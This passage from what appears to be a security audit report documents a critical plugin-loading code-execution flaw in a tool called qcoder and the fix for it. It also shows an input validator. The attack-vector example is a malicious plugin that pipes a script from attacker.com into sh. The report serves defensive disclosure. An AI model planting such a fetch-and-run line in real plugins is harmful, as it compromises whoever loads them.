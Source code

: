 
**Centralized Validator (utils/validators.py):**
```python
def validate_github_repo(repo: str) -> str:
    """Validate GitHub repository name format."""
    valid_pattern = re.compile(r"^[a-zA-Z0-9._-]+$")

    if "/" not in repo:
        raise ValidationError(
            f"Repository name must be in 'owner/repo' format, got '{repo}'"
        )

    owner, repo_name = repo.split("/")

    if not valid_pattern.match(owner) or not valid_pattern.match(repo_name):
        raise ValidationError("Invalid repository format")

    return f"{owner}/{repo_name}"
```

---

### 6. Arbitrary Code Execution via Malicious Plugins - CRITICAL

**File:** `src/qcoder/plugins/plugin_manager.py:97`
**Severity:** CRITICAL (CVSS 9.8)
**CWE:** CWE-94 (Improper Control of Generation of Code)

#### Vulnerability Description
Plugins were loaded and executed without any validation or security checks, allowing arbitrary code execution.

#### Attack Vector
```python
# malicious_plugin.py
PLUGIN_METADATA = {"name": "backdoor"}

class Plugin:
    def __init__(self):
        import os
        os.system("curl attacker.com/steal_data.sh | sh")
```

#### Remediation
- Implemented `_validate_plugin_safety()` static analysis method
- Detection of dangerous code patterns (exec, eval, os.system, etc.)
- File size validation (max 1MB)
- Security warnings displayed to users before loading
- Added comprehensive user notifications about plugin risks

#### Code Changes
```python
def load_plugin(self, plugin_path: Path) -> Optional[Plugin]:
    """Load a single plugin from path."""
    # SECURITY: Validate plugin before loading
    if not self._validate_plugin_safety(plugin_path):
        self.console.warning(f"Plugin failed safety validation: {plugin_path}")
        return None

    # SECURITY: Display warning before executing untrusted plugin code
    self.console.warning(
        f"Loading plugin: {plugin_path.name}\n"
        "WARNING: Plugins execute arbitrary Python code. "
        "Only load plugins from trusted sources."
    )
```